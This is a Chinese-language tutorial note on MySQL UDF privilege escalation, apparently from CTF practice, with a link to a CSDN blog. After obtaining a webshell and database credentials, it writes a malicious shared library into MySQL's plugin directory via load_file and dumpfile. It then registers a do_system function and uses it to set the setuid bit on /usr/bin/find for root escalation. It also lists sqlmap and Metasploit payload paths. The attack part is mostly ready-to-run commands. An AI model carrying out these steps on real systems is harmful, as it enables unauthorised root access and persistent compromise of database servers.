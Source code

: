 # UDF提权

[udf提权_GitCloud的博客-CSDN博客](https://blog.csdn.net/qq_43430261/article/details/107258466)

udf——用户自定义函数

通过自定义mysql函数，对mysql的功能进行扩充，添加的函数可以项mysql的内置函数一样被调用执行，mysql的用户自定义函数存放mysql根目录下的/mysql/lib/plugin里面，这里面存储着mysql的动态链接库文件。我们讲自定义的库文件放进去后，还有再mysql中执行`create FUNVTION function_name RETURNS STRING SONAME 'udf.dll'` 命令将该库文件中的函数导入，才能使用该函数，就像python里面的导入模块、方法一样的

这个`udf.dll` 不需要我们自己编写，我们也没有哪个本事，可以利用sqlmap为我们提供的。

进行udf提权的前提是我们已经获得了一个网站的webshell了,获得webshell后，就可以再网站的主目录下的config.php文件里面（一般都在这个文件里面定义了数据库的用户名密码）查看数据库的用户名与密码

## 攻击过程

```
mysql -u root -p 'R@v3nSecurity' # 进入mysqluse mysql;   
# 切换数据库
create table foo (line blob); 
# 新建一个表，用来存放本地传来的udf文件的内容
insert into foo values(load_file('/tmp/1518.so')); 
# 在foo中写入udf文件内容
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';  
# 将udf文件内容传入新建的udf文件中,这里的dumpfile要和用linEnum.sh查看的mysql的路径一致
# windows中，对于mysql小于5.1的，导出目录为C:\Windows\或C:\Windows\System32\，linux中，5.1以上lib\plugin
create function do_system returns integer soname '1518.so'; 
# 导入udf函数select do_system('chmod u+s /usr/bin/find');create table foo(line blob);
# 给 find 命令加上 setuid 的标志，然后调用find的-exec指令来执行命令quit; 
# 退出mysql
```

**提权文件路径：**

sqlmap:`/usr/share/sqlmap/data/udf/mysql/linux/64/`

![](https://www.notion.so/sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%202.png)

sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%202.png

metasploit:`/usr/share/metasploit-framework/data/exploits/mysql`

![](https://www.notion.so/sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%203.png)

sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%203.png

**linux中mysql插件路劲：**

`/usr/lib/x86_64-linux-gun/mariadb19/plugin`

或者在数据库中通过`select @@plugin_dir` 查看

![](https://www.notion.so/sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%204.png)

sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%204.png
